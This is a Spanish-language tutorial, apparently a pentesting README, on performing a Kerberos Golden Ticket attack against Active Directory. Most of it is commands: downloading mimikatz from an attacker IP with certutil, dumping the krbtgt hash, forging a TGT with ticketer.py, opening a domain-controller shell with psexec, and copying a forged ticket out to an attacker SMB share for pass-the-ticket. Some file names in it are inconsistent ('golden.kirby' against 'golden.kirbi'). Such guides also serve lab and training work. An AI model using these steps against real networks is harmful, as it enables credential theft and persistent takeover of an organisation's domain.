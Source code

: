 # Que es un Golden Tiket Attack?
El objetivo del ataque del Golden Ticket es construir un `TGT`, para lo cual se necesita el hash de la cuenta `krbtgt`, ya que es el que se usa para cifrar dicho ticket. Una vez obtenido este hash es posible construir un TGT con la caducidad que se desee y con los permisos que uno quiera, consiguiendo incluso privilegio de administrador de dominio. Una vez se cree el ticket, podremos acceder al DC cuando queramos aunque se cambie la contraseña del mismo.

# Efectuar Golden Ticket Attack
Para comenzar debemos subir el `mimikatz` al DC, podemos hacer por con `upload` en una sesión de evil-winrm o con:
```
certutil.exe -f -urlcache -split http://192.168.145.133:8000/mimikatz.exe mimikatz.exe
```
Posteriormente ejecutamos el mimikatz con `mimikatz.exe` y en la sesión interactiva ponemos lo siguiente:
```
lsadump::lsa /inject /name:krbtgt
```
Ahora creamos un ticket con ticketer.py ejecutando el siguiente comando:
```
ticketer.py -nthash <hash_NTLM> -domain-sid <sid_krbtgt> -domain <dominio> <nombre_exportación>
```
[Ver ejemplo](Images/users/README.md)

Tenemos que exportar una variable de entorno con la ruta del ticket.
```
export KRB5CCNAME="/home/kali/Desktop/AD/Administrador.ccache"
```
Ahora con `psexec` podemos conectar directamente al DC sin proporcionar contraseña de la siguiente forma:
```
psexec.py -n -k <dominio>/<domain_admin>@<nombre_DC> cmd.exe
```
[Ver ejemplo](Images/sesion/README.md)

# Movimiento Lateral
Podemos crear un `golden.kirbi` para cargarlo con mimikatz en una máquina y ganar privilegios de acceso a un equipo, para ello en una sesión de mimikatz haremos lo siguiente:
```
kerberos::golden /domain:<dominio>  /sid:<sid_krbtgt> /rc4:<hash_NTLM> /name:<nombre de usuario a Impersonalizar> /ticket:golden.kirbi
```
Luego nos podemos traer ese ticket a nuestro equipo  con `download` en una sesión de evil-winrm o creando un recurso compartido a nivel de red con:

Máquina atacante:
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
Máquina víctima:
```
copy golden.kirby \\<ip_atacante>\smbFolder\golden.kirbi
```
Ahora nos conectamos al equipo donde queremos hacer un `Pass The Ticket`, subimos el mimikatz, lo ejecutamos y en la sesión interactiva ponemos lo siguiente:
```
kerberos::ptt golden.kirby
```

